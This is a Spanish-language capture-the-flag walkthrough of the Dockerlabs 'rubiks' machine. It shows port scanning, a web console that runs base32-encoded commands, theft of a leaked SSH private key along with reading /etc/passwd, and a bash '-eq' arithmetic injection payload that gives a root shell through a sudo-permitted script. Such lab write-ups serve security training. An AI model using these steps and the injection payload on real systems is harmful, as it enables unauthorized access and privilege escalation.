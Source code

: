 Maquina "rubiks" de [Dockerlabs](https://dockerlabs.es)

Autor: [Luisillo_o](https://www.youtube.com/@Luisillo_o)

Dificultad: Medio

![rubiks](./img/rubiks.png)

# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sun Sep  1 22:24:03 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000015s latency).
Scanned at 2024-09-01 22:24:03 -03 for 9s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:3f:77:f8:5e:4e:89:42:4a:ce:14:3b:ac:59:05:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrfXFz4pyHxtcjrlXWm2Dry5PDT5HgtSquXhC/UIktolkH/x0IPt0a6tvePKwSbt3oKZ/f29oVgedMnzL55g+s=
|   256 b4:2a:b2:f8:4a:1b:50:09:fb:17:28:b7:29:e6:9e:6d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHxxY7fugsdx8wjNhWhOCOSrEH+NaadgL+ilg4ypJyQ+
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://rubikcube.dl/
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep  1 22:24:12 2024 -- 1 IP address (1 host up) scanned in 8.68 seconds
```

Como vemos, el puerto `22 y 80` están abiertos. El puerto 22 está corriendo openssh y el 80 apache. También podemos ver esta línea:

```css
http-title: Did not follow redirect to http://rubikcube.dl/
```

Esto significa que tenemos un dominio, por lo que editaremos el archivo `/etc/hosts` y agregamos al final lo siguiente:

```css
<ip> rubikcube.dl
```

Ahora entramos desde el navegador:

###### Puerto 80:

![80](./img/80.png)

Al parecer es una página de una tienda pero nada nos sirve.

Ahora haremos un poco de fuzzing web con gobuster para ver si encontramos algo:

```css
gobuster dir -u http://rubikcube.dl/ -w <wordlist> -x php,html,txt
```

![gobuster](./img/gobuster.png)

Como vemos hay un directorio `/administration/`, al cual si entramos y vamos a `Configuraciones > console` la url nos cambiará a "http://rubikcube.dl/myconsole.php" pero nos dice que no existe. Podriamos poner "myconsole.php" en "/administration/" y ver si realmente existe:

![console](./img/console.png)

# INTRUSION

Como vemos parece que podemos ejecutar comandos, el problema es que nos pide una codificación. Luego de haber estado probando un rato se me ocurrió probar `base32` y ver si así podiamos ejecutar comandos, para esto podemos usar el script basico que hice, no es obligatorio pero da comodidad.

Si ejecutamos el comando `ls -la` (obviamente en base32) veremos la siguiente salida:

```css
total 28
drwxr-xr-x 1 root root  118 Aug 30 03:28 .
drwxr-xr-x 1 root root  132 Aug 30 02:03 ..
-rwxr-xr-x 1 root root 3389 Aug 30 03:28 .id_rsa
-rw-r--r-- 1 root root 6665 Aug 30 01:34 configuration.php
drwxr-xr-x 1 root root   16 Aug 30 00:23 img
-rw-r--r-- 1 root root 5460 Aug 30 01:22 index.php
-rw-r--r-- 1 root root 3509 Aug 30 01:52 myconsole.php
-rw-r--r-- 1 root root 1825 Aug 30 00:40 styles.css
```

Como vemos hay un id_rsa, por lo que podriamos leerlo y copiarlo y también leer el `/etc/passwd` para ver con que usuario usarlo:

```css
luisillo:x:1001:1001::/home/luisillo:/bin/sh
```

Teniendo el usuario luisillo, nos copiamos el "id_rsa" y nos lo guardamos en nuestra máquina atacante, luego le damos permisos de ejecución con `chmod 600 id_rsa` y simplemente nos conectamos usando `ssh -i id_rsa luisillo@172.17.0.2`.

# ESCALADA DE PRIVILEGIOS

#### Luisillo

Una vez dentro ejecutamos `bash`. Ahora si ejecutamos un `sudo -l` veremos lo siguiente:

```css
Matching Defaults entries for luisillo on f72b6d53a48d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on f72b6d53a48d:
    (ALL) NOPASSWD: /bin/cube
```

vemos que podemos ejecutar el binario cube como root, pero si lo miramos un poco vemos que usa un "EQ comparer" en la siguiente línea:

```css
if [[ $number -eq $correct_number ]]; then
```

por lo que si buscamos un poco encontramos que podemos aprovecharlo si ejecutamos lo siguiente en el input:

```css
a[$(/bin/bash >&2)]+42
```

Fuente: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/bash-eq-privilege-escalation/

Una vez ejecutado ganaremos acceso root:

![root](./img/root.png)

Gracias por leer.